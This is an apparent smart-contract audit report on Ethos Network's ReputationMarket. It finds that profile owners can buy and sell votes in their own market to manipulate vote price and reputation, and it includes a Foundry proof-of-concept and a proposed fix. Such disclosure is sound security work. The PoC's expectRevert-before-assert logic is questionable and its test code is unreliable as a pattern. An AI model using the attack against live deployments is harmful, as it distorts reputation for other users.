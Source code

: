 Bald Goldenrod Elephant

High

# The profile owner can manipulate their market's vote price and their reputation

### Summary

The lack of profile owner address and `msg.sender` equal check in `ReputationMarket::buyVotes` and `ReputationMarket::sellVotes` allows the Market or Profile owner to manipulate vote prices by buying and selling their own votes.

### Root Cause

The **`ReputationMarket.sol`** contract is missing a check for the profile owner address in both the [`buyVotes()`](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L442-L493) and [`sellVotes()`](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L495-L534) functions. This omission makes the vote prices in the market vulnerable to manipulation by the market owner. Although there is a check to verify if the market exists and is active, there is no check to confirm whether the sender is the owner of the profile.

This contradicts the protocol's invariant : _The vote prices fluctuate dynamically based on demand, where an increase in trust votes implies higher reputation, and an increase in distrust votes implies lower reputation._


### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. The profile owner must create a market with a valid `marketConfigIndex`.
2. Once the market is created, the owner can call `buyVotes()` or `sellVotes()` to manipulate their own reputation.

### Impact

This vulnerability undermines the core functionality of the protocol, which is to establish reputation through Trust and Distrust votes via the market.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

import { ReputationMarket } from "../contracts/ReputationMarket.sol";
import { EthosProfile } from "../contracts/EthosProfile.sol";
import { Test } from "../../../../lib/forge-std/src/Test.sol";

contract ReputationMarketTest is Test {
  ReputationMarket reputationMarket;
  EthosProfile ethosProfile;
  address USER1 = address(1);
  uint256 ownerProfileId;

  function setUp() external {
    vm.startPrank(USER1);
    ethosProfile = new EthosProfile();
    ethosProfile.initialize(USER1, USER1, USER1, USER1, USER1);
    (, , , ownerProfileId) = ethosProfile.profileStatusByAddress(USER1);
    reputationMarket = new ReputationMarket();
    reputationMarket.initialize(USER1, USER1, USER1, USER1, USER1);
    reputationMarket.setUserAllowedToCreateMarket(ownerProfileId, true);
    vm.deal(USER1, 1 ether);
    reputationMarket.createMarketWithConfig{ value: 1 ether }(1);
    vm.stopPrank();
  }

  function testOwnerCanBuyVotes() public {
    vm.startPrank(USER1);
    vm.deal(USER1, 10 ether);
    uint256 trustVotePriceBefore = reputationMarket.getVotePrice(ownerProfileId, true);
    (uint256 expectedVotes, , , , , , ) = reputationMarket.simulateBuy(
      ownerProfileId,
      true,
      2 ether
    );
    reputationMarket.buyVotes{ value: 2 ether }(ownerProfileId, true, expectedVotes, 10);
    uint256 trustVotePriceAfter = reputationMarket.getVotePrice(ownerProfileId, true);
    vm.expectRevert();
    //This will revert as owner can buy their own votes and can manipulate the price
    assert(trustVotePriceAfter == trustVotePriceBefore);
    vm.stopPrank();
  }
}
```
`trustVotePriceAfter` and `trustVotePriceBefore` are not equal, means the creator of the market can manipulate the vote price, thereby altering their own reputation.

### Mitigation

```solidity

error AddressNotAuthorizedToBuyOrSellVotes();

 function checkSenderAndProfileAddress(uint256 profileId) public view {
    if (_ethosProfileContract().addressBelongsToProfile(msg.sender, profileId)) {
      revert AddressNotAuthorizedToBuyOrSellVotes();
    }
  }
```
Add this check at `ReputationMarket::buyVotes` and `ReputationMarket::sellVotes`